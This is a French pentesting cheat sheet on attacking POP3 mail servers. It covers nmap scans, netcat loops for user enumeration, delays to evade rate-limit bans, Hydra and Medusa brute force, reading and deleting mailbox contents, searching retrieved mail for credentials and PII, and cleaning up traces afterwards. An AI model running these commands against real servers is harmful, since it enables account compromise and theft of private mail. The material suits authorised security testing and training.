

Le protocole **POP3 (Post Office Protocol v3)** est utilisé pour récupérer les emails d’un serveur distant. Une mauvaise configuration peut permettre l’énumération des utilisateurs, le bruteforce des identifiants et la récupération de messages sensibles.

Ce processus est étroitement lié aux phases de [[Network Service Enumeration]], [[Password Attacks]], [[SMTP Enumeration]] et [[IMAP Enumeration]].



## Détection du service

### Scan de ports avec Nmap

```bash
nmap -p 110,995 --script=pop3-capabilities target.com
```

Sortie attendue :

```text
110/tcp open  pop3
995/tcp open  pop3s
```

> [!warning] Prérequis
> Vérifier si le serveur supporte **STARTTLS** pour passer d'une connexion claire à chiffrée.

## Connexion manuelle

### Connexion en Telnet (POP3 non chiffré)

```bash
telnet target.com 110
```

Commandes de base :

```text
USER test
PASS test123
```

### Connexion en SSL/TLS

```bash
openssl s_client -connect target.com:995 -crlf
```

## Analyse des configurations SSL/TLS faibles

Il est nécessaire de vérifier si le serveur accepte des protocoles obsolètes (SSLv2/v3, TLS 1.0/1.1) ou des suites de chiffrement faibles.

```bash
nmap -p 995 --script ssl-enum-ciphers target.com
```

Une configuration vulnérable permettrait une attaque de type **Man-in-the-Middle (MitM)** pour intercepter les identifiants en clair malgré l'utilisation de TLS.

## Énumération des utilisateurs

Certains serveurs **POP3** révèlent si un utilisateur existe lors de la phase de connexion.

### Test unitaire

```bash
nc target.com 110
USER test
```

Interprétation des réponses :
- `+OK` : L'utilisateur existe.
- `-ERR Unknown user` : L'utilisateur n'existe pas.

### Automatisation de l'énumération

```bash
for user in $(cat users.txt); do
  echo "USER $user" | nc -w 2 target.com 110 | grep "+OK" && echo "User $user exists"
done
```

## Techniques de contournement de blocage (rate limiting)

Si le serveur limite les tentatives de connexion, il est nécessaire d'ajuster le délai entre les requêtes pour éviter le bannissement de l'adresse IP.

```bash
# Utilisation d'un délai entre les tentatives avec netcat
for user in $(cat users.txt); do
  echo "USER $user" | nc -w 2 target.com 110
  sleep 5
done
```

## Bruteforce des identifiants

> [!danger] Danger
> Le bruteforce massif peut déclencher des mécanismes de verrouillage de compte (**Account Lockout**).

### Utilisation de Hydra

```bash
hydra -L users.txt -P passwords.txt target.com pop3 -V
```

### Utilisation de Medusa

```bash
medusa -h target.com -U users.txt -P passwords.txt -M pop3
```

## Récupération des emails

Une fois authentifié, les commandes suivantes permettent d'interagir avec la boîte aux lettres.

### Lister les messages

```text
LIST
```

Sortie attendue :

```text
+OK 3 messages
1 1024
2 2048
3 512
```

### Lecture et suppression

> [!tip] Astuce
> Toujours vérifier les headers des emails récupérés pour identifier des serveurs internes ou des adresses IP sources.

```text
RETR 1
```

Sortie attendue :

```text
From: admin@target.com
Subject: Password Reset
Date: Tue, 10 Jan 2025 12:34:56 GMT
Message: Votre nouveau mot de passe est P@ssw0rd!
```

> [!danger] Attention
> La suppression d'emails (**DELE**) est une action destructive qui peut alerter les administrateurs ou corrompre des preuves.

```text
DELE 1
```

## Analyse des risques de fuite de données (PII/Credentials)

L'analyse des emails récupérés doit se concentrer sur :
- **Identifiants** : Mots de passe en clair, clés API, jetons de session.
- **PII (Personally Identifiable Information)** : Documents d'identité, informations bancaires.
- **Infrastructure** : Schémas réseau, adresses IP internes, noms de serveurs (via les headers `Received:`).

## Nettoyage des traces post-exploitation

Il est impératif de supprimer les fichiers temporaires créés lors de l'énumération et de s'assurer qu'aucune session POP3 ne reste ouverte.

```bash
# Suppression des fichiers de wordlists ou logs locaux
rm -f users.txt passwords.txt pop3_results.txt

# Fermeture propre de la session POP3
echo "QUIT" | nc target.com 110
```

## Résumé des commandes

| Étape | Commande |
| :--- | :--- |
| Scanner POP3 | `nmap -p 110,995 --script=pop3-capabilities target.com` |
| Connexion Telnet | `telnet target.com 110` |
| Tester utilisateur | `USER test` |
| Automatiser énumération | `for user in $(cat users.txt); do echo "USER $user" | nc -w 2 target.com 110; done` |
| Bruteforce Hydra | `hydra -L users.txt -P passwords.txt target.com pop3 -V` |
| Lister emails | `LIST` |
| Lire email | `RETR 1` |
| Supprimer email | `DELE 1` |